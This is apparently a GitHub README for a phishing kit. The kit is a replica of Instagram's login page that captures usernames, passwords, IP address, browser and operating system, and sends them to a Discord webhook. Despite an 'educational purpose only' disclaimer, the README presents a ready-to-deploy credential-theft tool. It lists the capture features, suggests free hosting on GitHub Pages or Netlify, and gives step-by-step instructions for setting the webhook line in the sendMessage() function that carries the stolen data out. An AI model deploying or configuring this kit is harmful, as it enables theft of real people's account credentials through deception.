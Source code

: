 # 📸 Instagram-Like Credential Logger (Educational Purpose Only)

> ⚠️ **Disclaimer**  
> This project is intended strictly for **educational**, **testing**, or **authorized cybersecurity simulations** only. Unauthorized use of this tool for phishing, credential theft, or deception is **illegal** and against GitHub’s and Discord’s terms of service.

---

## 🚀 About the Project

This is a **replica of Instagram's login UI** that logs user credentials and sends them to a specified **Discord webhook** using an embed format. It also captures the **user's IP address**, **browser information**, and **operating system** for simulation of phishing scenarios or penetration testing environments.

---

## 🖥️ Interface Of Phishing Site:

![screenshot](images/instagram.jpg) 
![screenshot](discord.jpg) 

---

## 🧰 Features

- 📥 Captures `username` and `password`
- 🌐 Logs user's **IP address**
- 🖥️ Logs **Browser** and **Operating System**
- 📤 Sends all data via **Discord Embed** with rich formatting
- 🪞 Fully responsive and styled to match Instagram login UI
- ⏳ Includes redirect delay (2 seconds) after login
- 🌐 Easily hosted on GitHub Pages, Netlify, or localhost

---

## 🛠️ Discord Webhook Setup Instructions

### 1. Locate the Webhook Function

- Open the `index.html` file in your code editor.
- Scroll down to find the `sendMessage()` JavaScript function.

### 2. Update the Webhook URL

Inside the `sendMessage()` function, look for this line:

request.open("POST", "https://discord.com/api/webhooks/...");

- Replace it with your actual Discord webhook URL. You can create one via:
- Discord → Server Settings → Integrations → Webhooks → New Webhook
- Then update the code
